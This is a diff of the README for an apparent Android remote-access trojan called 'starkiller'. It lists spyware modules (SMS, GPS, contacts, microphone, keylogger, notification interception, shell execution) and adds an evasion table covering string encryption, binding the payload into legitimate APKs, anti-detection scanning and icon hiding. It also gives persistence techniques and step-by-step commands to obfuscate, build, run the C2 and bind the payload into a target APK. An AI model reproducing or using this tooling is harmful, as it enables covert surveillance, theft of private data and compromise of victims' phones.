

Before and after one commit to rainfantry/starkiller, a Markdown page: README.md, the part around one of its changes. Shown at 90% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -91,42 +110,64 @@ C2 → Agent:
 
 | Module | Op Code | Description |
 |--------|---------|-------------|
-| Device Info | `sysinfo` | IMEI, model, OS, carrier, battery, network |
-| Camera | `camera` | Front/rear photo capture |
-| SMS | `sms_read` | Read SMS inbox |
-| SMS | `sms_send` | Send SMS from device |
-| GPS | `gps` | Real-time location |
-| Contacts | `contacts` | Dump all contacts |
-| Files | `ls` | Directory listing |
-| Files | `download` | Download file from device |
-| Files | `upload` | Upload file to device |
-| Microphone | `mic` | Record ambient audio |
-| Screen | `screenshot` | Capture screen |
-| Keylogger | `keylog` | Accessibility-based keystroke capture |
-| Call Log | `calllog` | Call history |
-| App List | `apps` | Installed applications |
-| Notifications | `notifs` | Capture notifications |
-| Shell | `exec` | Execute shell command |
-| Persistence | — | Boot receiver + foreground service |
-| Stealth | — | Hide app icon, disguise as system app |
+| Device Info | `sysinfo` | Model, OS, carrier, Android ID, battery |
+| Camera | `camera` | Front/rear photo (Camera2 API, JPEG) |
+| SMS Read | `sms_read` | Inbox dump (last 100) |
+| SMS Send | `sms_send` | Send SMS from device |
+| GPS | `gps` | GPS/network location with accuracy |
+| Contacts | `contacts` | Name + number + type |
+| Files | `ls` | Directory listing with metadata |
+| Files | `download` | File download (10MB cap, base64) |
+| Microphone | `mic` | Ambient audio (configurable seconds) |
+| Screen | `screenshot` | Stub — needs MediaProjection grant |
+| Keylogger | `keylog` | Accessibility Service text capture |
+| Call Log | `calllog` | Incoming/outgoing/missed history |
+| App List | `apps` | Package name, label, system flag |
+| Notifications | `notifs` | Real-time notification interception |
+| Shell | `exec` | Execute shell command (sh -c) |
+| Full Recon | `recon` | sysinfo + gps + apps combined |
+| Ping | `ping` | Latency check |
+| Exit | `exit` | Kill agent |
+
+### Evasion
+
+| Layer | Technique | Status |
+|-------|-----------|--------|
+| String encryption | XOR+Base64 all protocol strings + C2 config | DONE |
+| ProGuard/R8 | 5-pass, repackage classes, strip logging | DONE |
+| Config injection | C2 host/port baked at build time, encrypted | DONE |
+| APK binding | Inject into legit APK (apktool decompile + Smali inject) | DONE |
+| Detection scanner | Self-scan for known RAT signatures before deploy | DONE |
+| Icon hiding | Remove launcher icon after first launch | DONE |
 
 ### Persistence
 
-- `RECEIVE_BOOT_COMPLETED` — start on device boot
-- Foreground service with persistent notification (disguised as system update)
-- `START_STICKY` — OS restarts service if killed
-- `WakeLock` — prevent CPU sleep during operations
-- Auto-reconnect with exponential backoff
+- `RECEIVE_BOOT_COMPLETED` + `QUICKBOOT_POWERON` — start on boot
+- Foreground service with `START_STICKY` — OS restarts if killed
+- `WakeLock` — prevent CPU sleep during ops
+- Battery optimization bypass request
+- Auto-reconnect with exponential backoff (5s -> 5min cap)
 
-### Build
+### Quick Start
 
 ```bash
-# First time — install Android SDK + Gradle
+# 1. Setup (one-time) — downloads Android SDK, sets up Gradle
 python setup.py
 
-# Build APK with your C2 IP baked in
-python build.py --ip 192.168.1.96 --port 8667
+# 2. Obfuscate + build
+python obfuscate.py full --ip 192.168.1.100 --port 8667
+python build.py --ip 192.168.1.100 --port 8667
 
-# Build + sign + install to connected device
-python build.py --ip 192.168.1.96 --port 8667 --install
+# 3. Start C2
+python server/starkiller_c2.py
+# Dashboard: http://localhost:8666
+
+# 4. Test (no device needed)
+python test_agents.py 127.0.0.1 8667 4
+
+# 5. Bind into legit APK (optional)
+python binder.py target.apk --output payloads/bound.apk
+
+# 6. Scan for detection signatures
+python obfuscate.py scan payloads/
 ```
````
Also changed, not shown: other parts of README.md (+95 -46 lines), HANDOFF.md (added, +95 -0 lines).
